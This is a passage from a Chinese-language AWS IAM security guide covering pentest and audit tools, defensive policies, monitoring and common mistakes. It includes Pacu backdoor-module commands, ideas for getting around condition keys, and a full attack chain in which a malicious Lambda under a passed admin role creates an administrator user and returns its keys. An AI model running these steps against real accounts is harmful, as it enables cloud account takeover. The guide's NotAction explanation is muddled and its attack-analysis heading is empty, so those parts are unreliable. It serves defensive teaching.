#### 工具四：Pacu

AWS渗透测试框架，内置大量IAM攻击模块。由Rhino Security Labs开发，专为AWS红队操作设计。

```bash
# 安装
pip install pacu

# 启动
pacu

# 设置凭证
set_keys

# IAM相关模块
run iam__enum_users_roles_policies_groups
run iam__privesc_scan
run iam__backdoor_users_keys
run iam__backdoor_users_password
run iam__enum_permissions

# 其他有用的模块
run iam__role_trust_policy_manipulation
run iam__enum_action_query
```

#### 工具五：enumerate-iam

快速枚举当前凭证的IAM权限。通过暴力调用AWS API来确定当前凭证拥有哪些权限，适用于不知道具体策略内容的场景。

```bash
# 安装
git clone https://github.com/andresriancho/enumerate-iam.git
cd enumerate-iam
pip install -r requirements.txt

# 运行枚举
python enumerate-iam.py --access-key <KEY> --secret-key <SECRET>

# 输出所有可调用的API
```

#### 工具六：CloudFox

针对云环境的渗透测试辅助工具。由BishopFox开发，专注于发现可利用的攻击路径。

```bash
# 安装
go install github.com/BishopFox/cloudfox@latest

# 枚举所有可访问资源
cloudfox aws all-checks

# 查找可提权的路径
cloudfox aws permissions --principal <user/role>

# 查找可访问的存储桶
cloudfox aws buckets

# 查找可访问的Lambda函数
cloudfox aws lambdas

# 查找可访问的EC2实例
cloudfox aws instances
```

#### 工具七：Cloudsplaining

专注于IAM策略分析的工具，可以识别AWS账户中的权限提升路径。由Salesforce开发，是AWS IAM审计的权威工具之一。

```bash
# 安装
pip install cloudsplaining

# 下载账户IAM数据
aws iam get-account-authorization-details > account-iam-data.json

# 分析权限提升路径
cloudsplaining scan -i account-iam-data.json

# 生成详细报告
cloudsplaining scan -i account-iam-data.json -o report.html

# 创建最小权限策略建议
cloudsplaining create-exclusions-file
cloudsplaining scan -i account-iam-data.json --exclusions-file exclusions.yml
```

**Cloudsplaining的核心检测项**：
- 策略中是否包含`Action: *`或`Resource: *`
- 是否存在`iam:PassRole`配合服务创建权限的组合
- 是否存在`sts:AssumeRole`到任何角色的权限
- 是否存在可以修改自身策略的权限
- 是否存在可以创建凭证的权限

#### 工具八：Checkov

Infrastructure as Code（IaC）安全扫描工具，可以在部署前检测IAM配置问题。支持Terraform、CloudFormation、Kubernetes等。

```bash
# 安装
pip install checkov

# 扫描Terraform文件
checkov -d ./terraform/

# 专门检查IAM相关策略
checkov -d ./terraform/ --check CKV_AWS_60,CKV_AWS_63,CKV_AWS_107,CKV_AWS_108,CKV_AWS_109,CKV_AWS_110,CKV_AWS_111

# 扫描CloudFormation模板
checkov -d ./cloudformation/ --framework cloudformation

# 输出JSON格式报告
checkov -d ./terraform/ --output json
```

#### 工具九：airIAM

从现有AWS IAM配置生成最小权限策略的工具。通过分析CloudTrail日志，识别实际使用的权限，然后生成精确的最小权限策略。

```bash
# 安装
pip install airiam

# 扫描并生成最小权限策略
airiam scan --account-id <account-id>

# 应用最小权限策略（谨慎使用）
airiam apply --dry-run  # 先预览变更
airiam apply  # 应用变更
```

#### 工具十：IAM Access Analyzer

AWS官方的IAM分析工具，可以识别跨账户访问和公共资源。

```bash
# 创建分析器
aws accessanalyzer create-analyzer \
  --analyzer-name my-analyzer \
  --type ACCOUNT

# 查看发现
aws accessanalyzer list-findings \
  --analyzer-arn <analyzer-arn>

# 查看具体的权限问题
aws accessanalyzer get-finding \
  --analyzer-arn <analyzer-arn> \
  --id <finding-id>
```

**IAM Access Analyzer的优势**：
- 实时监控IAM策略变更
- 识别跨账户访问和公共资源
- 生成策略验证结果
- 与AWS Organizations集成，支持组织级分析
- 可以自动生成最小权限策略建议

### 防御策略与最佳实践

#### 策略设计原则

**最小权限原则的实施步骤**：

1. **从零开始**：新用户/角色默认没有任何权限
2. **按需授予**：只授予完成工作所需的最小权限集
3. **定期审查**：每季度审查一次权限，删除不再需要的权限
4. **使用条件限制**：通过Condition键限制权限的生效条件
5. **避免通配符**：不使用`Action: *`或`Resource: *`

```json
// 最小权限策略示例：只允许读取特定S3桶
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowS3ReadSpecificBucket",
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::my-specific-bucket",
        "arn:aws:s3:::my-specific-bucket/*"
      ],
      "Condition": {
        "IpAddress": {
          "aws:SourceIp": "203.0.113.0/24"
        }
      }
    }
  ]
}
```

#### 权限边界模板

```json
// 开发者权限边界：限制为开发相关操作
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowDeveloperServices",
      "Effect": "Allow",
      "Action": [
        "lambda:*",
        "s3:Get*",
        "s3:List*",
        "dynamodb:Get*",
        "dynamodb:Query",
        "dynamodb:Scan",
        "logs:*",
        "cloudwatch:Get*",
        "cloudwatch:List*",
        "ec2:Describe*",
        "cloudformation:*"
      ],
      "Resource": "*"
    },
    {
      "Sid": "DenyIAMChanges",
      "Effect": "Deny",
      "Action": [
        "iam:*",
        "sts:AssumeRole",
        "organizations:*"
      ],
      "Resource": "*"
    }
  ]
}
```

#### SCP防护示例

```json
// 防止权限提升的SCP
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PreventIAMPrivilegeEscalation",
      "Effect": "Deny",
      "Action": [
        "iam:CreatePolicyVersion",
        "iam:SetDefaultPolicyVersion",
        "iam:CreateUser",
        "iam:CreateAccessKey",
        "iam:AttachUserPolicy",
        "iam:AttachRolePolicy",
        "iam:AttachGroupPolicy",
        "iam:PutUserPolicy",
        "iam:PutRolePolicy",
        "iam:PutGroupPolicy",
        "iam:AddUserToGroup",
        "iam:PassRole",
        "sts:AssumeRole"
      ],
      "Resource": "*",
      "Condition": {
        "ArnNotLike": {
          "aws:PrincipalArn": [
            "arn:aws:iam::*:role/break-glass-role"
          ]
        }
      }
    }
  ]
}
```

**break-glass角色设计**：紧急访问角色（break-glass role）是SCP防护的关键组成部分。这个角色不受SCP限制，用于紧急情况下的权限提升。break-glass角色应该：

- 只有极少数管理员知道
- 使用MFA保护
- 每次使用都触发CloudTrail告警
- 定期轮换凭证
- 有明确的使用流程和审批记录

#### 持续监控配置

```bash
# AWS CloudTrail + EventBridge规则：监控IAM变更
aws events put-rule \
  --name iam-changes \
  --event-pattern '{
    "source": ["aws.iam"],
    "detail-type": ["AWS API Call via CloudTrail"],
    "detail": {
      "eventName": [
        "CreatePolicyVersion",
        "SetDefaultPolicyVersion",
        "CreateUser",
        "AttachUserPolicy",
        "AttachRolePolicy",
        "PutUserPolicy",
        "PassRole"
      ]
    }
  }'

# 配置告警
aws events put-targets \
  --rule iam-changes \
  --targets Id=1,Arn=arn:aws:sns:region:account:security-alerts
```

#### 自动化修复流程

使用AWS Config和Lambda实现IAM策略的自动修复：

```bash
# 1. 创建AWS Config规则检测过度授权的IAM策略
aws configservice put-config-rule \
  --config-rule '{
    "ConfigRuleName": "iam-policy-no-administrative-privileges",
    "Source": {
      "Owner": "CUSTOM_LAMBDA",
      "SourceIdentifier": "arn:aws:lambda:region:account:function:iam-remediation",
      "SourceDetails": [
        {
          "EventSource": "aws.config",
          "MessageType": "ConfigurationItemChangeNotification"
        }
      ]
    },
    "Scope": {
      "ComplianceResourceTypes": [
        "AWS::IAM::Policy",
        "AWS::IAM::Role"
      ]
    }
  }'

# 2. Lambda函数自动删除过度授权的策略
cat > remediation.py << 'EOF'
import boto3
import json

def lambda_handler(event, context):
    config = boto3.client('config')
    iam = boto3.client('iam')
    
    configuration_item = json.loads(event['invokingEvent'])['configurationItem']
    
    # 检查是否是IAM策略
    if configuration_item['resourceType'] == 'AWS::IAM::Policy':
        policy_arn = configuration_item['ARN']
        
        # 检查策略是否包含Admin权限
        policy = iam.get_policy(PolicyArn=policy_arn)
        policy_version = iam.get_policy_version(
            PolicyArn=policy_arn,
            VersionId=policy['Policy']['DefaultVersionId']
        )
        
        # 检查是否包含通配符权限
        for statement in policy_version['PolicyVersion']['Document']['Statement']:
            if statement.get('Action') == '*' and statement.get('Resource') == '*':
                # 删除策略
                iam.delete_policy(PolicyArn=policy_arn)
                return {
                    'compliance_type': 'NON_COMPLIANT',
                    'annotation': 'Deleted policy with administrative privileges'
                }
        
        return {
            'compliance_type': 'COMPLIANT',
            'annotation': 'Policy does not have administrative privileges'
        }
    
    return {'compliance_type': 'NOT_APPLICABLE'}
EOF
```

### 常见误区与纠正

**误区一：使用AWS托管策略就安全了**

AWS托管策略（如`AdministratorAccess`）权限范围极广。即使不是管理员策略，很多托管策略也包含`iam:PassRole`、`sts:AssumeRole`等危险权限。正确做法是使用自定义的最小权限策略。例如，`PowerUserAccess`看起来很安全，但它包含`iam:CreateServiceLinkedRole`，攻击者可以创建具有高权限的服务关联角色。

**误区二：权限边界可以替代最小权限策略**

权限边界只定义上限，不定义实际授予的权限。如果身份策略和权限边界都允许`iam:*`，权限边界就形同虚设。权限边界是额外的安全层，不是最小权限的替代品。正确做法是：身份策略授予精确的权限，权限边界作为第二道防线。

**误区三：SCP可以完全防止权限提升**

SCP限制的是账户级别的最大权限，但账户内的IAM策略仍然可以过度授权。攻击者可能在SCP允许的范围内完成权限提升。此外，管理账户不受SCP限制。正确做法是：SCP作为第一道防线，配合权限边界和最小权限身份策略。

**误区四：审计一次就够了**

IAM配置是动态变化的。新的策略版本、新的角色信任关系、新的服务集成都可能引入权限提升路径。需要持续监控和定期审计。建议至少每季度审计一次，重大变更后立即审计。

**误区五：只关注用户权限，忽略服务角色**

EC2实例角色、Lambda执行角色、ECS任务角色等服务角色往往拥有比人类用户更高的权限。这些角色的临时凭证可以通过IMDS或服务漏洞获取。正确做法是：服务角色同样适用最小权限原则，不使用默认的服务角色。

**误区六：信任关系配置正确就安全了**

即使信任关系限制了特定账户，如果该账户被攻破，攻击者仍然可以假设角色。正确做法是：信任关系配合ExternalId、条件键、MFA要求等多层防护。

**误区七：只检查Allow语句，忽略Deny语句**

Deny语句是防御者最强大的武器。一个精心设计的Deny语句可以覆盖所有Allow语句。正确做法是：审查策略时同时关注Allow和Deny，确保Deny语句覆盖了所有危险操作。

### 实战案例：完整的权限提升攻击链

**场景**：攻击者通过钓鱼获得了一个开发者的AWS访问密钥，该密钥只有`lambda:ListFunctions`、`lambda:GetFunction`、`iam:ListRoles`、`iam:GetRole`、`lambda:CreateFunction`、`iam:PassRole`权限。

```bash
# 步骤1：枚举现有Lambda函数
aws lambda list-functions --query 'Functions[].[FunctionName,Role]'

# 步骤2：发现一个高权限角色
aws iam get-role --role-name lambda-admin-role \
  --query 'Role.AssumeRolePolicyDocument'

# 步骤3：验证该角色的信任关系允许Lambda服务
# 信任策略中包含 "Service": "lambda.amazonaws.com"

# 步骤4：创建恶意Lambda函数
cat > lambda_function.py << 'EOF'
import boto3
import json
import os

def lambda_handler(event, context):
    iam = boto3.client('iam')
    sts = boto3.client('sts')
    
    # 方案A：创建管理员用户
    try:
        iam.create_user(UserName='maint-user')
        iam.attach_user_policy(
            UserName='maint-user',
            PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
        )
        keys = iam.create_access_key(UserName='maint-user')
        return {
            'statusCode': 200,
            'body': json.dumps({
                'AccessKeyId': keys['AccessKey']['AccessKeyId'],
                'SecretAccessKey': keys['AccessKey']['SecretAccessKey']
            })
        }
    except Exception as e:
        return {'statusCode': 500, 'body': str(e)}
EOF

zip payload.zip lambda_function.py

# 步骤5：创建函数并附加高权限角色
aws lambda create-function \
  --function-name data-processor \
  --runtime python3.12 \
  --role arn:aws:iam::123456789012:role/lambda-admin-role \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://payload.zip \
  --timeout 30

# 步骤6：触发执行
aws lambda invoke --function-name data-processor output.json

# 步骤7：获取管理员凭证
cat output.json
```

**攻击链分析**：



整个攻击链仅需要6个API调用，耗时不到5分钟，但可以将一个只有5个权限的开发者密钥提升为完全的管理员权限。

**防御措施**：

1. **强制IMDSv2**：防止通过SSRF获取实例角色凭证
2. **最小权限角色**：Lambda执行角色不使用管理员权限
3. **权限边界**：为所有IAM用户/角色设置权限边界
4. **CloudTrail监控**：监控`CreateFunction`、`PassRole`等关键API调用
5. **定期轮换密钥**：强制每90天轮换访问密钥
6. **MFA保护**：关键操作要求MFA验证

### 进阶：IAM策略语法深度解析

#### 条件键（Condition Keys）

条件键是限制策略生效条件的关键机制，理解条件键对于发现绕过路径至关重要。

```json
{
  "Condition": {
    "StringEquals": {
      "aws:RequestedRegion": "us-east-1"
    },
    "DateGreaterThan": {
      "aws:CurrentTime": "2024-01-01T00:00:00Z"
    },
    "Bool": {
      "aws:MultiFactorAuthPresent": "true"
    },
    "IpAddress": {
      "aws:SourceIp": "203.0.113.0/24"
    },
    "StringLike": {
      "aws:RequestTag/Environment": "dev-*"
    },
    "Null": {
      "aws:RequestTag/Project": "true"
    }
  }
}
```

**常见条件键绕过思路**：

- `aws:SourceIp`：如果策略限制了源IP，攻击者需要找到策略允许的IP范围内的跳板机。如果策略允许`10.0.0.0/8`，攻击者只需攻破该网段内的任何一台机器。
- `aws:MultiFactorAuthPresent`：某些实现可以伪造MFA会话。如果策略只检查`aws:MultiFactorAuthPresent`而不检查`aws:MultiFactorAuthAge`，攻击者可以使用一次MFA认证后长期使用该会话。
- `aws:RequestedRegion`：攻击者只需在允许的区域操作即可。如果策略限制为`us-east-1`，攻击者在该区域创建资源即可绕过。
- `aws:RequestTag`：攻击者可以在创建资源时指定满足条件的标签。如果策略要求`Environment: dev-*`，攻击者只需在创建资源时添加`Environment: dev-evil`标签。
- `aws:PrincipalOrgID`：限制只有特定组织内的主体可以访问。攻击者需要在该组织内拥有账户。
- `aws:CalledVia`：限制只有通过特定服务链调用才允许。攻击者需要找到可以调用该服务的路径。

#### 资源通配符滥用

```json
// 危险：Resource为"*"表示所有资源
{
  "Effect": "Allow",
  "Action": "s3:GetObject",
  "Resource": "*"
}

// 更好的做法：限制到具体资源
{
  "Effect": "Allow",
  "Action": "s3:GetObject",
  "Resource": "arn:aws:s3:::specific-bucket/*"
}
```

**通配符的隐藏风险**：即使Action不是通配符，Resource为`*`也可能导致严重的安全问题。例如，`s3:GetObject`配合`Resource: *`意味着攻击者可以读取账户内所有S3桶中的所有对象，包括可能包含的密钥、配置文件、数据库备份等敏感数据。

#### NotAction与NotResource

`NotAction`和`NotResource`是常见的配置错误来源。它们的逻辑是反直觉的，容易导致意外的权限范围。

```json
// 危险：NotAction排除的操作比预期少
{
  "Effect": "Deny",
  "NotAction": ["iam:*", "sts:*"],
  "Resource": "*"
}
// 实际效果：拒绝了除IAM和STS之外的所有操作
// 但如果目的是限制IAM，这里反而是允许了IAM

// 危险：NotResource过于宽泛
{
  "Effect": "Allow",
  "Action": "s3:*",
  "NotResource": "arn:aws:s3:::public-bucket"
}
// 实际效果：允许对除public-bucket外的所有S3资源执行任何操作
```

**NotAction的正确理解**：`NotAction`的含义是"除了列出的操作之外的所有操作"。例如：

```json
{
  "Effect": "Deny",
  "NotAction": ["iam:*", "sts:*"],
  "Resource": "*"
}
```

这个策略的实际效果是：拒绝除了IAM和STS之外的所有操作。如果目的是阻止IAM操作，这里反而是允许了IAM。正确的写法应该是：

```json
{
  "Effect": "Deny",
  "Action": ["iam:*", "sts:*"],
  "Resource": "*"
}
```

#### 策略版本与继承

IAM策略最多支持5个版本，但只有一个是默认版本。攻击者可以通过以下方式利用策略版本：

1. **创建新版本**：如果策略已有5个版本，需要先删除一个非默认版本
2. **切换默认版本**：如果有`iam:SetDefaultPolicyVersion`权限，可以切换到一个已有但未激活的高权限版本
3. **删除非默认版本**：如果有`iam:DeletePolicyVersion`权限，可以删除非默认版本，但这不会影响当前权限

**策略继承的注意事项**：

- 组策略会继承给组内所有用户
- 角色策略会继承给所有使用该角色的实体
- 资源策略会继承给所有使用该资源的实体
- 权限边界会继承给所有使用该边界的用户/角色

通过深入理解IAM策略评估逻辑、掌握各种权限提升路径、熟练使用自动化审计工具，并配合完善的防御策略，可以有效识别和防范云环境中的IAM安全风险。IAM安全不是一次性工作，而是需要持续监控、定期审计、不断优化的长期过程。
